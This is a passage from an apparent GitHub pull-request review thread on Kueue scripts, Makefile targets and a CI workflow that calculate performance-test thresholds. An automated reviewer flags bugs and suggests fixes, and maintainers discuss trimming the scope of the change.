+    local dest_file="${AUTOMATION_DIR}/${script_name}"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_error "Source file not found: ${source_file}"
+        print_info "Make sure you're running this script from the directory containing the installation files."
+        return 1
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    chmod +x "${dest_file}"
+    print_success "Installed: ${dest_file}"
+}
+
+# Copy shell script
+copy_shell_script() {
+    print_header "Installing Shell Helper Script"
+    
+    local script_name="update_thresholds_ci.sh"
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/${script_name}"
+    local dest_file="${AUTOMATION_DIR}/${script_name}"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Source file not found: ${source_file}"
+        print_info "Skipping shell script installation"
+        return 0
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    chmod +x "${dest_file}"
+    print_success "Installed: ${dest_file}"
+}
+
+# Copy documentation
+copy_documentation() {
+    print_header "Installing Documentation"
+    
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/THRESHOLD_AUTOMATION_README.md"
+    local dest_file="${AUTOMATION_DIR}/README.md"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Documentation not found, skipping: ${source_file}"
+        return 0
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    print_success "Installed: ${dest_file}"
+}
+
+# Copy Makefile targets
+copy_makefile_targets() {
+    print_header "Integrating Makefile Targets"
+    
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/Makefile.perf-targets"
+    local makefile="${REPO_ROOT}/Makefile"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Makefile targets not found, skipping: ${source_file}"
+        return 0
+    fi
+    
+    # Check if targets already added
+    if grep -q "update-performance-thresholds" "${makefile}"; then
+        print_warning "Makefile targets already exist, skipping"
+        return 0
+    fi
+    
+    # Append targets to Makefile
+    echo "" >> "${makefile}"
+    echo "# Performance Threshold Automation Targets" >> "${makefile}"
+    cat "${source_file}" >> "${makefile}"
+    print_success "Added targets to: ${makefile}"
+}
+
+# Setup GitHub Actions workflow
+copy_workflow() {
+    print_header "Setting Up GitHub Actions Workflow"
+    
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/performance-threshold-update.yml"
+    local dest_file="${REPO_ROOT}/.github/workflows/performance-threshold-update.yml"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Workflow file not found, skipping: ${source_file}"
+        return 0
+    fi
+    
+    if [ -f "${dest_file}" ]; then
+        print_warning "Workflow already exists: ${dest_file}"
+        return 0
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    print_success "Installed GitHub Actions workflow: ${dest_file}"
+}
+
+# Verify installation
+verify_installation() {
+    print_header "Verifying Installation"
+    
+    local errors=0
+    
+    # Check Python script
+    if [ -f "${AUTOMATION_DIR}/calculate_performance_thresholds.py" ]; then
+        print_success "Main script found"
+    else
+        print_error "Main script not found"
+        errors=$((errors + 1))
+    fi
+    
+    # Check Makefile
+    if grep -q "update-performance-thresholds" "${REPO_ROOT}/Makefile"; then
+        print_success "Makefile targets added"
+    else
+        print_error "Makefile targets not found"
+        errors=$((errors + 1))
+    fi
+    
+    # Check PyYAML
+    if python3 -c "import yaml" 2>/dev/null; then
+        print_success "PyYAML available"
+    else
+        print_warning "PyYAML not available (will try to install on first use)"
+    fi
+    
+    if [ $errors -gt 0 ]; then
+        return 1
+    fi
+}
+
+# Test installation
+test_installation() {
+    print_header "Testing Installation"
+    
+    # Test help
+    if make -C "${REPO_ROOT}" perf-threshold-help &> /dev/null; then
+        print_success "Make targets working"
+    else
+        print_warning "Could not verify make targets (may need to source shell)"
+    fi
+    
+    # Test Python script
+    if python3 "${AUTOMATION_DIR}/calculate_performance_thresholds.py" --help &> /dev/null; then
+        print_success "Python script working"
+    else
+        print_error "Python script not working"
+        return 1
```

  _🎯 Functional Correctness_ | _🟠 Major_ | _⚡ Quick win_
  
  **Fail installation when smoke tests fail.**
  
  A missing `perf-threshold-help` only emits a warning, and a failed Python-script check is discarded by `test_installation || true`; the script then prints “Installation Complete!”. Return failure for either check and let `main` exit non-zero.
  
  <details>
  <summary>Proposed fix</summary>
  
  ```diff
  -        print_warning "Could not verify make targets (may need to source shell)"
  +        print_error "Could not verify make targets"
  +        return 1
  ...
  -    test_installation || true
  +    test_installation || exit 1
  ```
  </details>
  
  
  
  
  
  
  Also applies to: 326-326
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@install_threshold_automation.sh` around lines 255 - 266, Update the
  installation smoke-test flow around the perf-threshold make check and the Python
  help check so either failure returns a non-zero status instead of warning or
  being masked by `test_installation || true`. Remove the unconditional success
  suppression at the `test_installation` call site, and ensure `main` propagates
  the failed `test_installation` status rather than printing “Installation
  Complete!”.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:poseidon:terra -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:0e47f049622b0e5eec486a1e -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **Makefile:620** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -602,3 +602,127 @@ secretreader-plugin-image-build:
 kind-secretreader-plugin-image-build: PLATFORMS=$(HOST_IMAGE_PLATFORM)
 kind-secretreader-plugin-image-build: PUSH=--load
 kind-secretreader-plugin-image-build: secretreader-plugin-image-build
+
+# Performance Threshold Automation Makefile Targets
+# Usage:
+#   make update-performance-thresholds          # Update thresholds
+#   make update-performance-thresholds-dry-run  # Preview changes
+#   make update-tas-thresholds                  # Update TAS thresholds
+#   make validate-performance-metrics           # Check metrics exist
+
+.PHONY: update-performance-thresholds
+update-performance-thresholds: ## Update performance test thresholds based on artifacts
+	@echo "Updating performance test thresholds..."
+	@python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+		--artifacts-dir ./artifacts \
+		--cmd-margin 0.20 \
+		--util-margin -0.07 \
+		--admission-margin 0.20
```

  _🎯 Functional Correctness_ | _🟠 Major_ | _⚡ Quick win_
  
  **Documented `CMD_MARGIN=0.25` override has no effect.**
  
  The help text advertises `make update-performance-thresholds CMD_MARGIN=0.25`, but the recipe hardcodes `--cmd-margin 0.20`. Promote the margins to Make variables so the documented override works.
  
  
  
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
  +CMD_MARGIN ?= 0.20
  +UTIL_MARGIN ?= -0.07
  +ADMISSION_MARGIN ?= 0.20
  +
   .PHONY: update-performance-thresholds
   update-performance-thresholds: ## Update performance test thresholds based on artifacts
   	`@echo` "Updating performance test thresholds..."
   	`@python3` hack/performance-threshold-automation/calculate_performance_thresholds.py \
   		--artifacts-dir ./artifacts \
  -		--cmd-margin 0.20 \
  -		--util-margin -0.07 \
  -		--admission-margin 0.20
  +		--cmd-margin $(CMD_MARGIN) \
  +		--util-margin $(UTIL_MARGIN) \
  +		--admission-margin $(ADMISSION_MARGIN)
  ```
  
  Apply the same substitution to the three sibling targets.
  </details>
  
  
  Also applies to: 719-720
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 checkmake (0.3.2)</summary>
  
  [warning] 614-614: Target body for "update-performance-thresholds" exceeds allowed length of 5 lines (7).
  
  (maxbodylength)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@Makefile` around lines 613 - 620, Update the performance-threshold Make
  targets, including update-performance-thresholds and the sibling targets around
  the referenced lines, to pass configurable Make variables for CMD_MARGIN,
  UTIL_MARGIN, and ADMISSION_MARGIN instead of hardcoded values. Preserve the
  current defaults while allowing command-line overrides such as CMD_MARGIN=0.25
  to affect the Python script arguments.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:46ec12e196258e796cf4a659 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **Makefile:696** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -602,3 +602,127 @@ secretreader-plugin-image-build:
 kind-secretreader-plugin-image-build: PLATFORMS=$(HOST_IMAGE_PLATFORM)
 kind-secretreader-plugin-image-build: PUSH=--load
 kind-secretreader-plugin-image-build: secretreader-plugin-image-build
+
+# Performance Threshold Automation Makefile Targets
+# Usage:
+#   make update-performance-thresholds          # Update thresholds
+#   make update-performance-thresholds-dry-run  # Preview changes
+#   make update-tas-thresholds                  # Update TAS thresholds
+#   make validate-performance-metrics           # Check metrics exist
+
+.PHONY: update-performance-thresholds
+update-performance-thresholds: ## Update performance test thresholds based on artifacts
+	@echo "Updating performance test thresholds..."
+	@python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+		--artifacts-dir ./artifacts \
+		--cmd-margin 0.20 \
+		--util-margin -0.07 \
+		--admission-margin 0.20
+	@echo "✓ Thresholds updated. Review changes with: git diff test/performance/scheduler/configs/baseline/rangespec.yaml"
+
+.PHONY: update-performance-thresholds-dry-run
+update-performance-thresholds-dry-run: ## Preview performance threshold updates without writing files
+	@echo "Running threshold update in DRY RUN mode..."
+	@python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+		--artifacts-dir ./artifacts \
+		--cmd-margin 0.20 \
+		--util-margin -0.07 \
+		--admission-margin 0.20 \
+		--dry-run
+	@echo ""
+	@echo "ℹ To apply these changes, run: make update-performance-thresholds"
+
+.PHONY: update-tas-thresholds
+update-tas-thresholds: ## Update TAS (Topology Aware Scheduling) performance thresholds
+	@echo "Updating TAS performance test thresholds..."
+	@python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+		--artifacts-dir ./artifacts \
+		--output ./test/performance/scheduler/configs/tas/rangespec.yaml \
+		--cmd-margin 0.20 \
+		--util-margin -0.07 \
+		--admission-margin 0.20
+	@echo "✓ TAS thresholds updated. Review changes with: git diff test/performance/scheduler/configs/tas/rangespec.yaml"
+
+.PHONY: update-tas-thresholds-dry-run
+update-tas-thresholds-dry-run: ## Preview TAS threshold updates without writing files
+	@echo "Running TAS threshold update in DRY RUN mode..."
+	@python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+		--artifacts-dir ./artifacts \
+		--output ./test/performance/scheduler/configs/tas/rangespec.yaml \
+		--cmd-margin 0.20 \
+		--util-margin -0.07 \
+		--admission-margin 0.20 \
+		--dry-run
+	@echo ""
+	@echo "ℹ To apply these changes, run: make update-tas-thresholds"
+
+.PHONY: validate-performance-metrics
+validate-performance-metrics: ## Check that performance test metrics exist in artifacts
+	@echo "Validating performance test metrics..."
+	@if [ ! -d "./artifacts" ]; then \
+		echo "✗ No artifacts directory found"; \
+		exit 1; \
+	fi
+	@if find ./artifacts -name "summary.yaml" | grep -q .; then \
+		echo "✓ Found summary.yaml files"; \
+		find ./artifacts -name "summary.yaml" -exec echo "  - {}" \;; \
+	else \
+		echo "✗ No summary.yaml files found in artifacts"; \
+		exit 1; \
+	fi
+	@echo ""
+	@echo "To update thresholds based on these metrics, run:"
+	@echo "  make update-performance-thresholds"
+
+.PHONY: collect-performance-runs
+collect-performance-runs: ## Run performance test multiple times for threshold calculation
+	@read -p "How many times to run tests? (recommended: 5-10) " count; \
+	for i in $$(seq 1 $$count); do \
+		echo ""; \
+		echo "========================================"; \
+		echo "Run $$i/$$count"; \
+		echo "========================================"; \
+		make run-performance-scheduler; \
+		if [ $$i -lt $$count ]; then \
+			mkdir -p artifacts/run-performance-scheduler-backup-$$i; \
+			cp -r artifacts/run-performance-scheduler/* artifacts/run-performance-scheduler-backup-$$i/; \
+			echo "✓ Backed up run $$i"; \
+		fi; \
+	done
+	@echo ""
+	@echo "✓ Collected $$count performance runs"
+	@echo "To calculate new thresholds, run:"
+	@echo "  make update-performance-thresholds-dry-run"
+	@echo "  make update-performance-thresholds"
```

  _📐 Maintainability & Code Quality_ | _🟠 Major_ | _🏗️ Heavy lift_
  
  **The multi-run backup loop is duplicated between the Makefile and the workflow, and both copies share the same `cp -r <dir>/*` fragility.** Two independent implementations of "run N times, snapshot `artifacts/<dir>` into `<dir>-backup-$i`" will drift, and both abort the run when the source directory has no matching entries or contains only dotfiles.
  - `Makefile#L677-L696`: extract the loop into `hack/performance-threshold-automation/collect_runs.sh` and have this target invoke it; use `cp -r "artifacts/run-performance-scheduler/." "artifacts/run-performance-scheduler-backup-$$i/"`.
  - `.github/workflows/performance-threshold-update.yml#L63-L93`: replace the inline loop with a call to that same script, passing the run count and test type, so CI and local collection stay in sync.
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 checkmake (0.3.2)</summary>
  
  [warning] 678-678: Target body for "collect-performance-runs" exceeds allowed length of 5 lines (18).
  
  (maxbodylength)
  
  </details>
  
  </details>
  
  <details>
  <summary>📍 Affects 2 files</summary>
  
  - `Makefile#L677-L696` (this comment)
  - `.github/workflows/performance-threshold-update.yml#L63-L93`
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@Makefile` around lines 677 - 696, Extract the duplicated multi-run collection
  loop into hack/performance-threshold-automation/collect_runs.sh, accepting the
  run count and test type and copying source contents with a dot-safe path such as
  artifacts/<type>/. Update Makefile lines 677-696 to invoke this script instead
  of maintaining its inline loop, and replace the inline workflow loop in
  .github/workflows/performance-threshold-update.yml lines 63-93 with the same
  script call so local and CI collection remain synchronized.
  ```
  
  </details>
  
  <!-- consolidated_sites_start -->
  <!--
  <consolidated_sites>
  <site>
  <role>anchor</role>
  <file>Makefile</file>
  <line_range>677-696</line_range>
  </site>
  <site>
  <role>sibling</role>
  <file>.github/workflows/performance-threshold-update.yml</file>
  <line_range>63-93</line_range>
  </site>
  </consolidated_sites>
  -->
  <!-- consolidated_sites_end -->
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:refactor_suggestion -->
  
  <!-- cr-comment:v1:d852460cb68b5b83c135ae04 -->
  
  ---
  
  _🎯 Functional Correctness_ | _🟠 Major_ | _⚡ Quick win_
  
  **`$$count` is empty on Line 693, and the loop has portability/robustness gaps.**
  
  Each recipe line runs in its own shell, so `count` set on Line 679 does not exist by Line 693 — the summary always prints "Collected  performance runs". Also `read -p` is a bashism (GNU Make defaults to `/bin/sh`, i.e. dash on Ubuntu), the value is never validated before `seq 1 $$count`, and the recursive invocation should use `$(MAKE)` so flags propagate.
  
  
  
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
   .PHONY: collect-performance-runs
   collect-performance-runs: ## Run performance test multiple times for threshold calculation
  -	`@read` -p "How many times to run tests? (recommended: 5-10) " count; \
  +	`@printf` "How many times to run tests? (recommended: 5-10) "; \
  +	read count; \
  +	case "$$count" in ''|*[!0-9]*) echo "✗ Invalid count"; exit 1;; esac; \
   	for i in $$(seq 1 $$count); do \
   		echo ""; \
   		echo "========================================"; \
   		echo "Run $$i/$$count"; \
   		echo "========================================"; \
  -		make run-performance-scheduler; \
  +		$(MAKE) run-performance-scheduler; \
   		if [ $$i -lt $$count ]; then \
   			mkdir -p artifacts/run-performance-scheduler-backup-$$i; \
   			cp -r artifacts/run-performance-scheduler/* artifacts/run-performance-scheduler-backup-$$i/; \
   			echo "✓ Backed up run $$i"; \
   		fi; \
  -	done
  -	`@echo` ""
  -	`@echo` "✓ Collected $$count performance runs"
  -	`@echo` "To calculate new thresholds, run:"
  -	`@echo` "  make update-performance-thresholds-dry-run"
  -	`@echo` "  make update-performance-thresholds"
  +	done; \
  +	echo ""; \
  +	echo "✓ Collected $$count performance runs"; \
  +	echo "To calculate new thresholds, run:"; \
  +	echo "  make update-performance-thresholds-dry-run"; \
  +	echo "  make update-performance-thresholds"
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
  .PHONY: collect-performance-runs
  collect-performance-runs: ## Run performance test multiple times for threshold calculation
  	`@printf` "How many times to run tests? (recommended: 5-10) "; \
  	read count; \
  	case "$$count" in ''|*[!0-9]*) echo "✗ Invalid count"; exit 1;; esac; \
  	for i in $$(seq 1 $$count); do \
  		echo ""; \
  		echo "========================================"; \
  		echo "Run $$i/$$count"; \
  		echo "========================================"; \
  		$(MAKE) run-performance-scheduler; \
  		if [ $$i -lt $$count ]; then \
  			mkdir -p artifacts/run-performance-scheduler-backup-$$i; \
  			cp -r artifacts/run-performance-scheduler/* artifacts/run-performance-scheduler-backup-$$i/; \
  			echo "✓ Backed up run $$i"; \
  		fi; \
  	done; \
  	echo ""; \
  	echo "✓ Collected $$count performance runs"; \
  	echo "To calculate new thresholds, run:"; \
  	echo "  make update-performance-thresholds-dry-run"; \
  	echo "  make update-performance-thresholds"
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 checkmake (0.3.2)</summary>
  
  [warning] 678-678: Target body for "collect-performance-runs" exceeds allowed length of 5 lines (18).
  
  (maxbodylength)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@Makefile` around lines 677 - 696, Update the collect-performance-runs recipe
  so the prompt, validation, loop, backups, and final summary execute within one
  shell context, preserving the entered count for the closing message. Replace
  bash-specific read -p usage with a /bin/sh-compatible prompt and read sequence,
  validate that count is a positive integer before invoking seq, and use $(MAKE)
  instead of make for run-performance-scheduler so Make flags propagate.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:54930fd95d55e55ee4443d8b -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->
  
  ✅ Addressed in commit 43cbcb4

### Review by [@mimowo](https://github.com/mimowo) (commented) — 2026-07-29T05:41:45Z

- **Makefile:606** by [@mimowo](https://github.com/mimowo) — 2026-07-29T05:41:45Z
```diff
@@ -602,3 +602,127 @@ secretreader-plugin-image-build:
 kind-secretreader-plugin-image-build: PLATFORMS=$(HOST_IMAGE_PLATFORM)
 kind-secretreader-plugin-image-build: PUSH=--load
 kind-secretreader-plugin-image-build: secretreader-plugin-image-build
+
+# Performance Threshold Automation Makefile Targets
```

  I would avoid polluting the top level Makefile and script with that, let's keep the scripts contained

### Review by [@mimowo](https://github.com/mimowo) (commented) — 2026-07-29T05:43:04Z

- **.github/workflows/performance-threshold-update.yml:1** by [@mimowo](https://github.com/mimowo) — 2026-07-29T05:43:04Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
```

  I'm not sure we need the GH action , or a periodic CI job. Let's consider it as a follow up improvement, but skip in the first PR

### Review by [@mimowo](https://github.com/mimowo) (commented) — 2026-07-29T05:44:38Z

- **hack/testing/calculate_performance_thresholds.py:4** by [@mimowo](https://github.com/mimowo) — 2026-07-29T05:44:38Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
```

  Please provide some summary of running the script. Maybe in the PR description or a comment

### Review by [@ekam-walia](https://github.com/ekam-walia) (commented) — 2026-07-29T05:45:30Z

- **.github/workflows/performance-threshold-update.yml:1** by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-29T05:45:30Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
```

  I'll remove this GH action, @mbobrovskyi suggested that we can have that in a ./hack/testing

### Review by [@ekam-walia](https://github.com/ekam-walia) (commented) — 2026-07-29T05:45:45Z

- **hack/testing/calculate_performance_thresholds.py:4** by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-29T05:45:45Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
```

  I'll update the PR description

### Review by [@mimowo](https://github.com/mimowo) (commented) — 2026-07-29T05:49:14Z

- **.github/workflows/performance-threshold-update.yml:1** by [@mimowo](https://github.com/mimowo) — 2026-07-29T05:49:14Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
```

  Yeah, this might be a good idea, but let's consider as a follow up so that review is easier.

### Review by [@ekam-walia](https://github.com/ekam-walia) (commented) — 2026-07-29T05:50:57Z

- **.github/workflows/performance-threshold-update.yml:1** by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-29T05:50:57Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
```

  Sure

### Review by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) (commented) — 2026-07-29T06:24:38Z

**Actionable comments posted: 6**

<details>
<summary>🧹 Nitpick comments (4)</summary><blockquote>

<details>
<summary>hack/testing/performance-thresholds.sh (2)</summary><blockquote>

`9-9`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Remove unused `SCRIPT_DIR` and `YELLOW` (SC2034).**


Also applies to: 16-16

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/performance-thresholds.sh` at line 9, Remove the unused
SCRIPT_DIR assignment and YELLOW variable from performance-thresholds.sh to
resolve SC2034, leaving all other threshold logic unchanged.
```

</details>

<!-- cr-comment:v1:cef7c8d4d521c72b0976d16e -->

_Source: Linters/SAST tools_

---

`33-45`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Last run isn't backed up, and `pip install` mutates the user's environment.**

Two smaller concerns:
- The `i -lt count` guard skips backing up the final run, relying on `artifacts/run-performance-scheduler/` staying intact. That works only because the calculator also globs the unsuffixed directory — worth a comment, since a stray `make run-performance-scheduler` afterwards silently overwrites that sample.
- Line 62 `pip install PyYAML` into whatever interpreter is active is intrusive for a `make` target; prefer failing with an instruction to install it (or use a venv).

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/performance-thresholds.sh` around lines 33 - 45, Update the run
loop around make run-performance-scheduler to back up every run, including the
final one, while preserving the calculator’s expected artifact inputs and
documenting any intentional unsuffixed-directory behavior. Remove the automatic
pip install PyYAML step; instead detect a missing dependency and fail with clear
installation or virtual-environment instructions.
```

</details>

<!-- cr-comment:v1:493f0c41b57dd7836f51dbc0 -->

</blockquote></details>
<details>
<summary>hack/testing/calculate_performance_thresholds.py (2)</summary><blockquote>

`414-435`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Drop the extraneous `f` prefixes (Ruff F541) on Lines 416, 432, 435.**

<details>
<summary>🧹 Fix</summary>

```diff
-        print(f"   To apply changes, run without --dry-run")
+        print("   To apply changes, run without --dry-run")
@@
-        print(f"\n📝 Next steps:")
+        print("\n📝 Next steps:")
@@
-        print(f"   3. Push and create a PR")
+        print("   3. Push and create a PR")
```
</details>

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/calculate_performance_thresholds.py` around lines 414 - 435,
Remove the unnecessary f-string prefixes from the three print statements in the
dry-run and output-success messaging within the main output-writing flow,
keeping their text and behavior unchanged.
```

</details>

<!-- cr-comment:v1:8036a72ff118e1c05b3c7735 -->

_Source: Linters/SAST tools_

---

`242-250`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Dead code: `load_existing_rangespec` is never called and `existing` is never used.**

Either use it to preserve existing classes/comments or drop both. Also `existing: dict = None` needs `Optional[dict]` (Ruff RUF013).

<details>
<summary>♻️ Minimal fix</summary>

```diff
-def generate_rangespec_yaml(thresholds: dict, existing: dict = None) -> str:
+def generate_rangespec_yaml(thresholds: dict) -> str:
```
</details>

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/testing/calculate_performance_thresholds.py` around lines 242 - 250,
Remove the unused load_existing_rangespec function and the unused existing
parameter from generate_rangespec_yaml, since neither participates in the
current flow. Ensure the function signature no longer uses the invalid None
default annotation that triggers RUF013, and update any callers to match the
simplified signature.
```

</details>

<!-- cr-comment:v1:80a62204381e67a26b67ede0 -->

_Source: Linters/SAST tools_

</blockquote></details>

</blockquote></details>

<details>
<summary>🤖 Prompt for all review comments with AI agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

Inline comments:
In `@hack/testing/calculate_performance_thresholds.py`:
- Around line 152-154: Make min_runs_required a hard gate in the
threshold-generation flow: when len(self.cmd_metrics.values) is below
self.config.min_runs_required, stop before calculating or writing thresholds and
report the insufficient run count. Add an explicit --force override so threshold
generation proceeds only when that flag is provided, while preserving the
existing behavior for runs meeting the minimum.
- Around line 122-133: Update the threshold extraction logic around the
clusterQueueClasses loop to derive each class’s usage from cpuUsed * 100 divided
by nominalQuota and elapsedMs, matching checker_test.go, while retaining entries
whose computed usage is zero. Populate cluster_queue_metrics for every reported
class with valid quota data, and stop sourcing cmd.maxWallMs from summary
flat.wallMs; continue using the separate command statistics source.

In `@hack/testing/performance-thresholds.sh`:
- Around line 128-129: Update the documentation reference in the
performance-thresholds help text so it points to a committed, existing
documentation file; if the intended document is unavailable, remove or replace
the path with the correct established location rather than referencing a missing
README.
- Line 11: Update the CALC_SCRIPT variable in performance-thresholds.sh to
reference calculate_performance_thresholds.py so the calculate command’s file
check succeeds and the script can run.
- Around line 31-45: Update the count input handling around the read and
test-run loop to use read -r, reject empty or non-numeric values before invoking
seq, and quote loop-variable expansions in the numeric comparison. Preserve the
existing repeated-run and backup behavior for valid positive counts.

In `@Makefile-test.mk`:
- Around line 842-844: Align the update-performance-thresholds target’s
documented invocation with its $(ARGS)-based implementation: update the
usage/help text in performance-thresholds.sh to instruct users to run make
update-performance-thresholds ARGS=collect (and the equivalent supported modes),
rather than treating collect as a separate make goal.

---

Nitpick comments:
In `@hack/testing/calculate_performance_thresholds.py`:
- Around line 414-435: Remove the unnecessary f-string prefixes from the three
print statements in the dry-run and output-success messaging within the main
output-writing flow, keeping their text and behavior unchanged.
- Around line 242-250: Remove the unused load_existing_rangespec function and
the unused existing parameter from generate_rangespec_yaml, since neither
participates in the current flow. Ensure the function signature no longer uses
the invalid None default annotation that triggers RUF013, and update any callers
to match the simplified signature.

In `@hack/testing/performance-thresholds.sh`:
- Line 9: Remove the unused SCRIPT_DIR assignment and YELLOW variable from
performance-thresholds.sh to resolve SC2034, leaving all other threshold logic
unchanged.
- Around line 33-45: Update the run loop around make run-performance-scheduler
to back up every run, including the final one, while preserving the calculator’s
expected artifact inputs and documenting any intentional unsuffixed-directory
behavior. Remove the automatic pip install PyYAML step; instead detect a missing
dependency and fail with clear installation or virtual-environment instructions.
```

</details>

<details>
<summary>🪄 Autofix (Beta)</summary>

Fix all unresolved CodeRabbit comments on this PR:

- [ ] <!-- {"checkboxId": "4b0d0e0a-96d7-4f10-b296-3a18ea78f0b9"} --> Push a commit to this branch (recommended)
- [ ] <!-- {"checkboxId": "ff5b1114-7d8c-49e6-8ac1-43f82af23a33"} --> Create a new PR with the fixes

</details>

---

<details>
<summary>ℹ️ Review info</summary>

<details>
<summary>⚙️ Run configuration</summary>

**Configuration used**: Path: .coderabbit.yaml

**Review profile**: CHILL

**Plan**: Pro Plus

**Run ID**: `23dc5278-4801-4ac8-bc2e-38c8db9e8460`

</details>

<details>
<summary>📥 Commits</summary>

Reviewing files that changed from the base of the PR and between f8548440610b64fc95a81abaed72944d18bfe6a7 and 43cbcb4ec9ebdfb428e9eef33d9a7671c50abe5e.

</details>

<details>
<summary>📒 Files selected for processing (3)</summary>

* `Makefile-test.mk`
* `hack/testing/calculate_performance_thresholds.py`
* `hack/testing/performance-thresholds.sh`

</details>

</details>

<!-- This is an auto-generated comment by CodeRabbit for review status -->

- **hack/testing/calculate_performance_thresholds.py:133** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T06:24:36Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
